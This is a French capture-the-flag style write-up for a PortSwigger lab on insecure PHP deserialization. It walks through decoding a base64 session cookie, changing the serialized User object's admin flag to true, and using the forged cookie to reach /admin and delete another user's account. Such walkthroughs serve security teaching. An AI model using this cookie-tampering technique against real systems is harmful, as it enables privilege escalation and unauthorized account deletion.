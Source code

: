 # Lab

https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-objects

## Solution

Ce lab possède un objet PHP sérialisé dans les cookies quand on se connecte : `Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d`

La chaine de caractères est encodée en base64, on peut la décoder :

```bash
$ echo "Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30=" | base64 -d
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
```

On peut voir que l'objet est de type `User` et qu'il possède deux attributs : `username` et `admin`.

On va donc essayer de modifier la valeur de l'attribut `admin` à `1` pour devenir admin.

```bash
$ echo 'O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}' | base64
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7Yjox
O30K
```

Et on l'insère dans le cookie : `Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30k`

Ce qui nous donne accès à l'endpoint `/admin` et à la fonctionnalié de suppression de compte.

On doit maintenant faire un appel à l'endpoint `/admin/delete?username=carlos` avec le cookie modifié pour supprimer le compte de Carlos.